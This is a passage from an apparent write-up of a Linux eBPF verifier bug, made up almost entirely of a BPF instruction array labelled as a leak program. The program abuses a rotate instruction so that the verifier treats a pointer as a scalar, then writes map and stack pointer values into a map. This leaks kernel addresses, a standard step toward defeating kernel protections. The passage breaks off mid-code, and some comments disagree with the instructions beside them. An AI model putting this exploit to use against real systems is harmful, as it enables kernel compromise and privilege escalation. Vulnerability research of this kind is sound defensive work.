 ```c
}
```

As we can see, if `umin_val` is greater that `umax_val` then the value is marked as unknown i.e. a scalar value which can be written into the map. We can also leak the eBPF stack value similarly. Below is the program to leak values.

```c
    struct bpf_insn leak_prog[] = {
        BPF_MOV64_REG(BPF_REG_8, BPF_REG_1),       // r8 = r1, save ctx to r8
        BPF_MOV64_REG(BPF_REG_9, BPF_REG_10),      // r9 = rsp
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_9, -0x10),  // r9 = rsp - 0x10
                                                   //
        BPF_LD_MAP_FD(BPF_REG_1, mapfd),            // r1 = map1 fd
        BPF_MOV64_IMM(BPF_REG_0, 0),

        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),                                 // r2 = rbp
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -8),                                // r2 = fp -8
        BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),                                  // key = [r2] = 0;
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),  // r0 = map1[0]
        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),                                // jmp if(r0!=NULL)
        BPF_EXIT_INSN(),                                                      // else exit

        // Bug here
        BPF_MOV32_IMM(BPF_REG_6, 0x2),
        BPF_ALU32_IMM(BPF_ROL, BPF_REG_6, 31),        
        
        // ro contains the map field
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_0),
        // Adding r6 to r0 would make it a scalar
        BPF_ALU64_REG(BPF_ADD, BPF_REG_3, BPF_REG_6),  

        BPF_MOV64_REG(BPF_REG_1, BPF_REG_10),           // r1 = rbp
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, -0x18),       // r1 = rbp - 0x18
        BPF_STX_MEM(BPF_DW, BPF_REG_1, BPF_REG_3, 0),   // *(u64 *)(r1) = r3; 

        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_LD_MAP_FD(BPF_REG_1, mapfd),                                      // r1 = map1 fd
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),                                 // r2 = rbp
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -8),                                // r2 = fp -8
        BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 1),                                  // key = [r2] = 1;
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),                                 // r3 = rbp
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -0x18),                             // r3 = rbp - 0x18
        BPF_MOV64_IMM(BPF_REG_4, 0),                                          // r4 = 0
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_update_elem),  // r0 = &map1[1]

        // Converting rsp to scalar so that we can write it to the 
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),           
        BPF_ALU64_REG(BPF_ADD, BPF_REG_3, BPF_REG_6),  

        BPF_MOV64_REG(BPF_REG_1, BPF_REG_10),           // r1 = rbp
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, -0x18),       // r1 = rbp - 0x18
        BPF_STX_MEM(BPF_DW, BPF_REG_1, BPF_REG_3, 0),   // *(u64 *)(r1) = r3; 

        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_LD_MAP_FD(BPF_REG_1, mapfd),                                      // r1 = map1 fd
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),                                 // r2 = rbp
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -8),                                // r2 = fp -8
        BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),                                  // key = [r2] = 1;
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),                                 // r3 = rbp
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -0x18),                             // r3 = rbp - 0x18
        BPF_MOV64_IMM(BPF_REG_4, 0),                                          // r4 = 0
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_update_elem),  // r0 = &map1[1]

```